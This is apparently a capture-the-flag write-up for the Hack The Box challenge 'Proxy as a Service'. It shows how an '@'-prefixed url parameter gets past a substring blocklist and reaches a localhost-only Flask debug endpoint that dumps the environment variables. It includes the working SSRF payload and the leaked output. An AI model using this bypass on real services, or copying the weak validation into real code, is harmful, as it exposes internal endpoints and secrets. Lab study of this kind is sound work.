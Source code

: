 ```yaml
---
clayout: ctf
title: Proxy as a Service
date: 2024-11-24
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Proxy as a Service
      link: https://app.hackthebox.com/challenges/549
      thumbnail: /ctf/hack-the-box/challenges/web/proxy-as-a-service/thumbnail.png
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/549
          thumbnail: /ctf/hack-the-box/challenges/web/proxy-as-a-service/pwned.png
---
```


## Challenge description

Experience the freedom of the web with ProxyAsAService. Because online privacy and access should be for everyone,
everywhere.

## Challenge Overview

The challenge presents a web application that acts as a proxy service. Users can input subreddit paths, and the
application fetches and displays the corresponding content.

## Code Review

### Dockerfile

The application’s `Dockerfile` reveals that the `FLAG` is stored as an environment variable:

```Dockerfile
ENV FLAG=HTB{f4k3_fl4g_f0r_t3st1ng}
```

### routes.py

The key functionality resides in the `routes.py` file. There are two primary endpoints to consider:

#### 1. `/debug/environment`

This endpoint exposes all environment variables, including the `FLAG`. However, access is restricted by the
`is_from_localhost` decorator, which ensures that only requests from `127.0.0.1` can reach this endpoint.

```python
@debug.route('/environment', methods=['GET'])
@is_from_localhost
def debug_environment():
    environment_info = {
        'Environment variables': dict(os.environ),
        'Request headers': dict(request.headers)
    }
    return jsonify(environment_info)
```

#### 2. `/`

This endpoint proxies requests to subreddits. It takes a `url` parameter and appends it to the target URL. The request
is then processed by the `proxy_req` function:

```python
@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
    url = request.args.get('url')

    if not url:
        cat_meme_subreddits = [
            '/r/cats/',
            '/r/catpictures',
            '/r/catvideos/'
        ]
        random_subreddit = random.choice(cat_meme_subreddits)
        return redirect(url_for('.proxy', url=random_subreddit))
    
    target_url = f'http://{SITE_NAME}{url}'
    response, headers = proxy_req(target_url)

    return Response(response.content, response.status_code, headers.items())
```

This endpoint interacts with the `proxy_req` function, which applies two restrictions:

- The request must pass the `is_safe_url` check.
- The response URL must also pass the `is_safe_url` check.

### Key Restrictions

#### `is_from_localhost` Decorator

```python
def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip
```

This decorator verifies that the `request.remote_addr` is `127.0.0.1`. Requests from any other IP are forbidden.

#### `is_safe_url` Function

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']
def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True
```

The `is_safe_url` function checks the URL against a list of restricted substrings (`RESTRICTED_URLS`). If a restricted
substring is found, the request is blocked.

## Exploitation

### Objective

To retrieve the `FLAG`, we must access the `/debug/environment` endpoint. This requires bypassing:

1. The `is_from_localhost` decorator.
2. The `is_safe_url` check enforced by `proxy_req`.

### Bypassing `is_from_localhost`

The `is_from_localhost` decorator validates the `remote_addr` field of the incoming request. Since we cannot spoof our
IP address directly, we use the proxy mechanism to send a request to `127.0.0.1` indirectly.

### Bypassing `is_safe_url`

The `is_safe_url` function prevents direct access to restricted URLs. However, we can exploit the way the `url`
parameter is appended to `SITE_NAME`. By crafting a URL with the format:

```
@0.0.0.0:1337/debug/environment
```

This payload works because:

1. The `@` symbol in URLs is interpreted as authentication information, allowing us to bypass URL validation.
2. The `SITE_NAME` variable prepends the hostname (`http://`) before appending the payload, effectively transforming the
   final URL into:

```
http://0.0.0.0:1337/debug/environment
```

This bypasses the restrictions in `is_safe_url` while routing the request to `127.0.0.1`.

### Payload

To execute the exploit, we send the following request:

```
/?url=@0.0.0.0:1337/debug/environment
```

### Result

The response includes the environment variables, including the `FLAG`:

```json
{
    "Environment variables": {
        "FLAG": "HTB{f4k3_fl4g_f0r_t3st1ng}",
        "GPG_KEY": "7169605F62C751356D054A26A821E680E5FA6305",
        "HOME": "/root",
        "HOSTNAME": "a4bfb5eead77",
        "PATH": "/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "PYTHONDONTWRITEBYTECODE": "1",
        "PYTHON_SHA256": "086de5882e3cb310d4dca48457522e2e48018ecd43da9cdf827f6a0759efb07d",
        "PYTHON_VERSION": "3.13.0",
        "SUPERVISOR_ENABLED": "1",
        "SUPERVISOR_GROUP_NAME": "flask",
        "SUPERVISOR_PROCESS_NAME": "flask",
        "TERM": "xterm",
        "WERKZEUG_SERVER_FD": "3"
    },
    "Request headers": {
        "Accept": "*/*",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "keep-alive",
        "Cookie": "JSESSIONID=8530BE014E3829AD1C9CA27C9DBFA3F7; eu_cookie={%22opted%22:true%2C%22nonessential%22:true}; session=eyJjc3JmX3Rva2VuIjoiNzY3NDgzOTAyOTgzZWU5ZjY0YzNlNWIyZWM3MTJiZTNkN2E0Mzg0ZSJ9.Zz3ZSA.iRjAZ3aMVfDhnx6uYyQ8jpO5edY",
        "Host": "0.0.0.0:1337",
        "User-Agent": "python-requests/2.32.3"
    }
}
```

We successfully retrieved the fake flag `HTB{f4k3_fl4g_f0r_t3st1ng}`.
We can now use the same technique to retrieve the real flag on the HTB server.

## References

- [Flask Documentation](https://flask.palletsprojects.com/en/stable/)
- [Python function wrappers](https://docs.python.org/fr/3/library/functools.html#functools.wraps)
